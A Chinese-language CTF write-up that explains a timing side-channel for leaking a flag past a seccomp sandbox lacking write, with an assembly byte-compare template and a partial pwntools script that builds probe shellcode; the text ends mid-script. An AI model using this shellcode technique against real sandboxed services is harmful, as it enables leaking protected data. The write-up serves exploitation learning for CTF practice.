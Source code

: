 1.就是先初始化，

2.写一段 o+r+ 比较 的shellcode,

3.然后再在底下添加判断正确或错误的函数。

这个是模板，单字节比对示例：

```C
mov al, [flag_addr + offset]      ; 读取实际 Flag 字节
mov bl, guessed_char              ; 将猜测字节载入
cmp al, bl                        ; 比对
jne wrong                         ; 如果不相等则跳转到 wrong
; 相等：进入死循环或耗时路径
jmp in_loop
```

## 一道题

下面看一下这个litctf里的侧信道

暂时无法在飞书文档外展示此内容

看一下沙箱

![img](https://hnusec-star.feishu.cn/space/api/box/stream/download/asynccode/?code=NmY5ZmQ4M2UxMDAyOTAzZDQxZmVlNTAyMTQ0NGNjMGFfaDk0UVl0Wm1jbzRQRzVTZGNHbUY0YndmdE5aUU51dmFfVG9rZW46TG0zQWJwWm45b1pKRmV4Yk9LTmNvaXZwbkFlXzE3NTQ0NTQyNTQ6MTc1NDQ1Nzg1NF9WNA)

这个标志比较明显。就没有write了。没有write的情况下我们想要绕过沙箱。就要考虑这个侧信道的方法

IDA逆向一下函数

![img](https://hnusec-star.feishu.cn/space/api/box/stream/download/asynccode/?code=MDQ0MTA5ZDBhMDkyNTRhNTUzMjQ2YzRmNTkxODFkMzhfQ1RFMXJPTElkWFBqdUl2NEdkdlA4T2lGbEl4NERNWEJfVG9rZW46V2FnQ2JOOW1XbzFZSU54RkxISWNlTjhIbmdiXzE3NTQ0NTQyNTQ6MTc1NDQ1Nzg1NF9WNA)

这的mmap是用来分配内存的。里面的34是flag.它映射了0x1000

主要是这个。read读0x100，到buf，把buf当成指针。主要就是利用这个

```C
read(0, buf, 0x100);
((void (*)(void))buf)();
```

写shellcode时注意不要超0x100

```Python
from pwn import *
import time, statistics, sys

HOST = sys.argv[1] if len(sys.argv) > 1 else "challenge.host"
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 31337

context.arch = "amd64"
context.log_level = "error"  # change to 'debug' for verbose I/O

FLAG_ADDR = 0x404040  # <-- change to real flag address
LOOP_CNT  = 0x800000  # ≈20 ms on most VPS; calibrate!  

print(f"[+] Target  : {HOST}:{PORT}")
print(f"[+] Flag @  : 0x{FLAG_ADDR:x}\n")

def make_probe_sc(index: int, guess: int) -> bytes:
    """Return assembled probe shellcode for flag[index] == guess."""
    asm_template = f"""
        mov     rbx, {FLAG_ADDR}
        add     rbx, {index}        ; rbx = &flag[index]
        movzx   eax, byte [rbx]     ; al  = flag[index]
        cmp     al, {guess}         ; compare with guess
        jne     wrong               ; if not equal – skip delay
correct:
        mov     rcx, {LOOP_CNT}     ; long busy-loop for timing leak
```